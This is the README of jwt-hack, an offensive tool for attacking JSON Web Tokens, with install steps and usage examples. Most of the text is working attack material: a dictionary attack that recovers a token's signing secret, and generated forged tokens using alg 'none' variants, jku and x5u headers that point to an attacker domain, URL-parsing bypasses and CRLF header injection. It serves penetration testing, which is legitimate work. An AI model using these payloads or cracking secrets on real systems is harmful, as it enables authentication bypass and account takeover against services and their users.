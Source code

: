 <h1 align="center">
  <br>
  <a href=""><img src="https://user-images.githubusercontent.com/13212227/91675684-26561500-eb78-11ea-9f59-d904d743afae.png" alt="" width="260px;"></a>
  <br>
  Hack the JWT(JSON Web Token)
  <br>
  <img src="https://img.shields.io/github/v/release/hahwul/jwt-hack?style=flat">
  <img src="https://github.com/hahwul/jwt-hack/actions/workflows/go.yml/badge.svg">
  <img src="https://github.com/hahwul/jwt-hack/actions/workflows/codeql-analysis.yml/badge.svg">
  <a href="https://codecov.io/gh/hahwul/jwt-hack"><img src="https://codecov.io/gh/hahwul/jwt-hack/branch/main/graph/badge.svg"/></a>
  <img src="https://app.codacy.com/project/badge/Grade/77bdf42ef06a430a9bfb46f15eb86626">
  <a href="https://goreportcard.com/report/github.com/hahwul/jwt-hack"><img src="https://goreportcard.com/badge/github.com/hahwul/jwt-hack"></a>
  <a href="https://twitter.com/intent/follow?screen_name=hahwul"><img src="https://img.shields.io/twitter/follow/hahwul?style=flat&logo=twitter"></a>
</h1>

## Installation
### from the source
**go1.17**
```
go install github.com/hahwul/jwt-hack@latest
```

**go1.16**
```
GO111MODULE=on go get -u github.com/hahwul/jwt-hack
```

### homebrew
```
brew tap hahwul/jwt-hack
brew install jwt-hack
```

### snapcraft
```
sudo snap install jwt-hack
```

## Usage
```
   d8p 8d8   d88 888888888          888  888 ,8b.     doooooo 888  ,dP
   88p 888,o.d88    '88d     ______ 88888888 88'8o    d88     888o8P'
   88P 888P`Y8b8   '888      XXXXXX 88P  888 88PPY8.  d88     888 Y8L
88888' 88P   YP8 '88p               88P  888 8b   `Y' d888888 888  `8p
-------------------------
Hack the JWT(JSON Web Token) | by @hahwul | v1.0.0

Usage:
  jwt-hack [command]

Available Commands:
  crack       Cracking JWT Token
  decode      Decode JWT to JSON
  encode      Encode json to JWT
  help        Help about any command
  payload     Generate JWT Attack payloads
  version     Show version

Flags:
  -h, --help   help for jwt-hack
```

![1414](https://user-images.githubusercontent.com/13212227/97078000-8a023900-1623-11eb-844f-ee92399be392.png)

## Encode mode(JSON to JWT)
```
▶ jwt-hack encode '{"json":"format"}' --secret={YOUR_SECRET}
```

e.g
```
▶ jwt-hack encode '{"test":"1234"}' --secret=asdf
   d8p 8d8   d88 888888888          888  888 ,8b.     doooooo 888  ,dP
   88p 888,o.d88    '88d     ______ 88888888 88'8o    d88     888o8P'
   88P 888P`Y8b8   '888      XXXXXX 88P  888 88PPY8.  d88     888 Y8L
88888' 88P   YP8 '88p               88P  888 8b   `Y' d888888 888  `8p
-------------------------
INFO[0000] Encoded result                                algorithm=HS256
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0ZXN0IjoiMTIzNCJ9.JOL1SYkRZYUz9GVny-DgoDj60C0RLz929h1_fFcpqQA
```

## Decode mode(JWT to JSON)
```
▶ jwt-hack decode {JWT_CODE}
```

e.g
```
▶ jwt-hack decode eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ.SflKxwRJSMeKKF2QT4fwpMeJf36POk6yJV_adQssw5c

   d8p 8d8   d88 888888888          888  888 ,8b.     doooooo 888  ,dP
   88p 888,o.d88    '88d     ______ 88888888 88'8o    d88     888o8P'
   88P 888P`Y8b8   '888      XXXXXX 88P  888 88PPY8.  d88     888 Y8L
88888' 88P   YP8 '88p               88P  888 8b   `Y' d888888 888  `8p
-------------------------
INFO[0000] Decoded data(claims)                          header="{\"alg\":\"HS256\",\"typ\":\"JWT\"}" method="&{HS256 5}"
{"iat":1516239022,"name":"John Doe","sub":"1234567890"}
```

## Crack mode(Dictionary attack / BruteForce)
```
▶ jwt-hack crack -w {WORDLIST} {JWT_CODE}
```

e.g
```
▶ jwt-hack crack eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ.5mhBHqs5_DTLdINd9p5m7ZJ6XD0Xc55kIaCRY5r6HRA -w samples/wordlist.txt

   d8p 8d8   d88 888888888          888  888 ,8b.     doooooo 888  ,dP
   88p 888,o.d88    '88d     ______ 88888888 88'8o    d88     888o8P'
   88P 888P`Y8b8   '888      XXXXXX 88P  888 88PPY8.  d88     888 Y8L
88888' 88P   YP8 '88p               88P  888 8b   `Y' d888888 888  `8p
-------------------------
[*] Start dict cracking mode
INFO[0000] Loaded words (remove duplicated)              size=16
INFO[0000] Invalid signature                             word=fas
INFO[0000] Invalid signature                             word=asd
INFO[0000] Invalid signature                             word=1234
INFO[0000] Invalid signature                             word=efq
INFO[0000] Invalid signature                             word=asdf
INFO[0000] Invalid signature                             word=2q
INFO[0000] Found! Token signature secret is test         Signature=Verified Word=test
INFO[0000] Invalid signature                             word=dfas
INFO[0000] Invalid signature                             word=ga
INFO[0000] Invalid signature                             word=f
INFO[0000] Invalid signature                             word=ds
INFO[0000] Invalid signature                             word=sad
INFO[0000] Invalid signature                             word=qsf
...
INFO[0000] Invalid signature                             word=password
INFO[0000] Invalid signature                             word=error
INFO[0000] Invalid signature                             word=calendar
[+] Found! JWT signature secret: test
[+] Finish crack mode
```

## Payload mode(Alg none attack, etc..)
```
▶ jwt-hack payload {JWT_CODE}
```

for jku and x5u (what is? [readme this slide](https://www.slideshare.net/snyff/jwt-jku-x5u))
* `--jwk-attack` : A attack payload domain for jku&x5u (e.g hahwul.com)
* `--jwk-trust` : A trusted domain for jku&x5u (e.g google.com)
* `--jwk-protocol` : jku&x5u protocol (http/https) (default "https")

e.g
```
▶ jwt-hack payload eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkhBSFdVTCIsInJlZnJlc2hfdG9rZW4iOiJhYmNkMTIzNDU0NjQiLCJpYXQiOjE1MTYyMzkwMjJ9.5m9zFPGPU0LMdTTLCR7jXMP8357nNAa0z8ABJJE3r3c --jwk-attack attack.hahwul.com --jwk-protocol https --jwk-trust trust.hahwul.com

INFO[0000] Generate none payload                         header="{\"alg\":\"none\",\"typ\":\"JWT\"}" payload=none
eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0=.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkhBSFdVTCIsInJlZnJlc2hfdG9rZW4iOiJhYmNkMTIzNDU0NjQiLCJpYXQiOjE1MTYyMzkwMjJ9.

INFO[0000] Generate NonE payload                         header="{\"alg\":\"NonE\",\"typ\":\"JWT\"}" payload=NonE
eyJhbGciOiJOb25FIiwidHlwIjoiSldUIn0=.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkhBSFdVTCIsInJlZnJlc2hfdG9rZW4iOiJhYmNkMTIzNDU0NjQiLCJpYXQiOjE1MTYyMzkwMjJ9.

INFO[0000] Generate NONE payload                         header="{\"alg\":\"NONE\",\"typ\":\"JWT\"}" payload=NONE
eyJhbGciOiJOT05FIiwidHlwIjoiSldUIn0=.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkhBSFdVTCIsInJlZnJlc2hfdG9rZW4iOiJhYmNkMTIzNDU0NjQiLCJpYXQiOjE1MTYyMzkwMjJ9.

INFO[0000] Generate jku + basic payload                  header="{\"alg\":\"hs256\",\"jku\":\"attack.hahwul.com\",\"typ\":\"JWT\"}" payload=jku
eyJhbGciOiJoczI1NiIsImprdSI6ImF0dGFjay5oYWh3dWwuY29tIiwidHlwIjoiSldUIn0=.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkhBSFdVTCIsInJlZnJlc2hfdG9rZW4iOiJhYmNkMTIzNDU0NjQiLCJpYXQiOjE1MTYyMzkwMjJ9.

INFO[0000] Generate jku host validation payload          header="{\"alg\":\"hs256\",\"jku\":\"https://trust.hahwul.comZattack.hahwul.com\",\"typ\":\"JWT\"}" payload=jku
eyJhbGciOiJoczI1NiIsImprdSI6Imh0dHBzOi8vdHJ1c3QuaGFod3VsLmNvbVphdHRhY2suaGFod3VsLmNvbSIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkhBSFdVTCIsInJlZnJlc2hfdG9rZW4iOiJhYmNkMTIzNDU0NjQiLCJpYXQiOjE1MTYyMzkwMjJ9.

INFO[0000] Generate jku host validation payload          header="{\"alg\":\"hs256\",\"jku\":\"https://trust.hahwul.com@attack.hahwul.com\",\"typ\":\"JWT\"}" payload=jku
eyJhbGciOiJoczI1NiIsImprdSI6Imh0dHBzOi8vdHJ1c3QuaGFod3VsLmNvbUBhdHRhY2suaGFod3VsLmNvbSIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkhBSFdVTCIsInJlZnJlc2hfdG9rZW4iOiJhYmNkMTIzNDU0NjQiLCJpYXQiOjE1MTYyMzkwMjJ9.

INFO[0000] Generate jku host header injection (w/CRLF) payload  header="{\"alg\":\"hs256\",\"jku\":\"https://trust.hahwul.com%0d0aHost: attack.hahwul.com\",\"typ\":\"JWT\"}" payload=jku
eyJhbGciOiJoczI1NiIsImprdSI6Imh0dHBzOi8vdHJ1c3QuaGFod3VsLmNvbSUwZDBhSG9zdDogYXR0YWNrLmhhaHd1bC5jb20iLCJ0eXAiOiJKV1QifQ==.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkhBSFdVTCIsInJlZnJlc2hfdG9rZW4iOiJhYmNkMTIzNDU0NjQiLCJpYXQiOjE1MTYyMzkwMjJ9.

INFO[0000] Generate x5u + basic payload                  header="{\"alg\":\"hs256\",\"x5u\":\"attack.hahwul.com\",\"typ\":\"JWT\"}" payload=x5u
eyJhbGciOiJoczI1NiIsIng1dSI6ImF0dGFjay5oYWh3dWwuY29tIiwidHlwIjoiSldUIn0=.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkhBSFdVTCIsInJlZnJlc2hfdG9rZW4iOiJhYmNkMTIzNDU0NjQiLCJpYXQiOjE1MTYyMzkwMjJ9.

INFO[0000] Generate x5u host validation payload          header="{\"alg\":\"hs256\",\"x5u\":\"https://trust.hahwul.comZattack.hahwul.com\",\"typ\":\"JWT\"}" payload=x5u
eyJhbGciOiJoczI1NiIsIng1dSI6Imh0dHBzOi8vdHJ1c3QuaGFod3VsLmNvbVphdHRhY2suaGFod3VsLmNvbSIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkhBSFdVTCIsInJlZnJlc2hfdG9rZW4iOiJhYmNkMTIzNDU0NjQiLCJpYXQiOjE1MTYyMzkwMjJ9.

INFO[0000] Generate x5u host validation payload          header="{\"alg\":\"hs256\",\"x5u\":\"https://trust.hahwul.com@attack.hahwul.com\",\"typ\":\"JWT\"}" payload=x5u
eyJhbGciOiJoczI1NiIsIng1dSI6Imh0dHBzOi8vdHJ1c3QuaGFod3VsLmNvbUBhdHRhY2suaGFod3VsLmNvbSIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkhBSFdVTCIsInJlZnJlc2hfdG9rZW4iOiJhYmNkMTIzNDU0NjQiLCJpYXQiOjE1MTYyMzkwMjJ9.

INFO[0000] Generate x5u host header injection (w/CRLF) payload  header="{\"alg\":\"hs256\",\"x5u\":\"https://trust.hahwul.com%0d0aHost: attack.hahwul.com\",\"typ\":\"JWT\"}" payload=x5u
eyJhbGciOiJoczI1NiIsIng1dSI6Imh0dHBzOi8vdHJ1c3QuaGFod3VsLmNvbSUwZDBhSG9zdDogYXR0YWNrLmhhaHd1bC5jb20iLCJ0eXAiOiJKV1QifQ==.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkhBSFdVTCIsInJlZnJlc2hfdG9rZW4iOiJhYmNkMTIzNDU0NjQiLCJpYXQiOjE1MTYyMzkwMjJ9.
```
